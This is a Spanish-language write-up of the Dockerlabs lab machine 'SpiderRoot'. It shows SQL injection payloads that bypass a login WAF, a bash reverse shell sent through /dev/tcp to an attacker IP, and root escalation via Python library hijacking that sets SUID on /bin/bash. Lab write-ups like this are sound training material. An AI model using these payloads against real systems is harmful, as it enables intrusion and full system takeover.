# 🖥️ Write-Up: [SpiderRoot](https://dockerlabs.es)

## 📌 Información General
    - Nombre de la máquina: SpiderRoot
    - Plataforma: Dockerlabs
    - Dificultad: Medio
    - Creador: Grooti
    - OS: Linux
---

## 🔍 Enumeración

La máquina SpiderRoot posee la IP 172.17.0.2.

## Descubrimiento de Puertos

Realizamos un reconocimiento de todos los puertos de la máquina y nos quedamos únicamente con aquellos que están abiertos. Para ello, vamos a recurrir a la herramienta `nmap`.



La máquina tiene abiertos los puertos `22` y `80`, por lo tanto, vamos a proceder a realizar un escaneo de los servicios y versiones de ellos.



Como no disponemos de credenciales y esa versión de OpenSSH del puerto 22 no es vulnerable, vamos a analizar el puerto 80.

#### Puerto 80

Accemos a él a través del navegador y nos encontramos la siguiente página:



Revisando las páginas de su menú de navegación, vemos:

    - heroes: información de posibles usuarios.
    - multiverso: panel de login.
    - contacto: información de contacto y una pista.

La pista del apartado de contacto:

"Cada realidad tiene secretos ocultos. Explora con cuidado y recuerda: un gran poder conlleva una gran responsabilidad.  
Tip: Algunos archivos del sistema pueden revelar más sobre el multiverso..."

Esto nos sugiere revisar el código fuente de los tres subdirectorios. Tras realizarlo, en el multiverso encontramos lo siguiente:



Nos indica que para evadir el Web Application Firewall (WAF) debemos de usar AND, OR o comentarios de manera codificada.

## 🔥Explotación

Antes de intentar evadir el WAF, vamos a probar el panel de login con las típicas credenciales de usuario 'admin' y contraseña 'admin'.


Observamos que las credenciales son incorrectas, por lo que intentamos realizar una simple SQl injection, introduciendo `'or 1=1-- -` en el campo del usuario y una contraseña cualquiera, para ver el comportamiento de la página.




Como vemos, el mensaje es direntente al de credenciales incorrectas, esto nos indica que hemos conseguido entrar en el panel pero no hemos evadido el WAF. Así que ahora toca evadirlo.

Tras varias pruebas, conseguimos pasar el WAF introduciendo en el usuario `or 1=1 /` y una contraseña cualquiera. Y obtenemos:



## 🚪Acceso a la máquina

Ahora que tenemos usuarios y credenciales vamos a utilizarlos para conectarnos por ssh a la máquina.



Nos conectamos como peter y en su directorio encontramos una nota:
"Hay un enemigo más internamente en esta máquina... Hay que derrotarlo"

Revisamos permisos SUID, sudoers, capabilities, tareas que se ejecuten periódicamante y no encontramos nada en ellas. Pero, encontramos un archivo intersesante en /opt, llamado spidy.py.




## 🧗Escalada de Privilegios

### www-data

Recordando la nota del directiro de peter, probamos a mirar los puertos que están abiertos localmente.


Encontramos que de forma local hay algún servicio ejecutándose en el puerto `8080`, como disponemos de credenciales para conectarnos por ssh, vamos utilizar ssh para aplicar port forwarding y llevar ese servicio del puerto 8080 a nuestra máquina.

```bash
ssh -L 8080:127.0.0.1:8080 peter@172.17.0.2
```

Tras introducir las credenciales de peter, el servicio del puerto 8080 que corre de forma local en la máquina pasará a nuestra localhost en el puerto 8080. Así que si accedemos a nuestro localhost por ese puerto utilizando el navegador.



Vemos un portal en el que al parecer podemos ejecutar comandos. Probamos a introducir un `whoami` y obtenemos como salida `www-data`, por lo tanto vamos a introducir una reverse shell.
```bash
bash -c 'bash -i >& /dev/tcp/172.17.0.1/443 0>&1'
```

Antes de ejecutarla, nos ponemos en escucha con `netcat` en el puerto 443.
```bash
nc -nlvp 443
```

La ejecutamos y recibimos la conexión.



Ahora procedemos a realizar el tratamiento de la TTY.





### Root

Ahora somos el usuario `www-data`, así que vamos a comprobar sus permisos sudoers con `sudo -l`.

Y observamos que puede ejecutar como cualquier usuario sin proporcionar contraseña el archivo que habíamos encontrado en `/opt`.

```bash
(ALL) NOPASSWD: /usr/bin/python3 /opt/spidy.py
```

Como hemos visto anteriormente, ese script utilizaba las librerías de os, sys, json y math. Además, disponemos de permisos de escritura en el directorio `/opt`. Así que solo nos queda comprobar el path de python para ver si podemos ejecutar un Python Library Hijacking.



Vemos que la primera ruta en la que python busca las librerías es el mismo directorio en el que se situa el archivo, por lo tanto, podemos ejecutar un Python Library Hijacking. 

Para ello, vamos a crear en el directirio `/opt` un archivo llamado `json.py` con el siguiente código en su interior, para darle a la bash permisos SUID.

```python
import os; os.system("chmod u+s /bin/bash")
```
Le damos permisos de ejecución al archivo creado.
```bash
chmod +x json.py
```

De esta forma, al ejecutar spidy.py como root nos dará permisos SUID a la bash.

```bash
sudo /usr/bin/python3 /opt/spidy.py
```

Nos da un error referente al json.py, pero no nos afecta. Ahora comprobamos la bash y efectivamente, ha funcionado.



Por último, nos lanzamos una bash con privilegios.
```bash
/bin/bash -p
```

Y listo, somos root.

